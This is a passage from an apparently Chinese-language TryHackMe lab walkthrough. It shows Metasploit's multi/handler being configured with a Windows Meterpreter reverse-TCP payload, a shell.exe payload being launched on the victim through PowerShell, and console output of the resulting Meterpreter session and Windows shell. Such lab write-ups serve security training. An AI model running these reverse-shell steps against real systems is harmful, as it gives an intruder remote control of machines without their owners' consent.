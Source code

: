    ```
      ```

+ 使用MSF的exploit/multi/handler进行相关设置：

   ```
   use exploit/multi/handler 
   set PAYLOAD windows/meterpreter/reverse_tcp 
   set LHOST your-thm-ip 
   set LPORT listening-port 
   run
   ```
   ```
   msf6 > use exploit/multi/handler
   [*] Using configured payload generic/shell_reverse_tcp
   msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
   PAYLOAD => windows/meterpreter/reverse_tcp
   msf6 exploit(multi/handler) > set lhost 10.11.61.123
   lhost => 10.11.61.123
   msf6 exploit(multi/handler) > set lport 4444
   lport => 4444
   msf6 exploit(multi/handler) > run

   [*] Started reverse TCP handler on 10.11.61.123:4444 
   ```
   + 反向shell启用shell.exe:

   ```
   PS C:\users\bruce\desktop> Start-Process "shell.exe"
   PS C:\users\bruce\desktop> 
   ```

   + MSF生成meterpreter shell:

   ```
   msf6 > use exploit/multi/handler
   [*] Using configured payload generic/shell_reverse_tcp
   msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
   PAYLOAD => windows/meterpreter/reverse_tcp
   msf6 exploit(multi/handler) > set lhost 10.11.61.123
   lhost => 10.11.61.123
   msf6 exploit(multi/handler) > set lport 4444
   lport => 4444
   msf6 exploit(multi/handler) > run

   [*] Started reverse TCP handler on 10.11.61.123:4444 
   [*] Sending stage (175686 bytes) to 10.10.178.7
   [*] Meterpreter session 1 opened (10.11.61.123:4444 -> 10.10.178.7:49308) at 2023-12-06 10:02:12 -0500

   meterpreter >  shell
   Process 2396 created.
   Channel 1 created.
   Microsoft Windows [Version 6.1.7601]
   Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
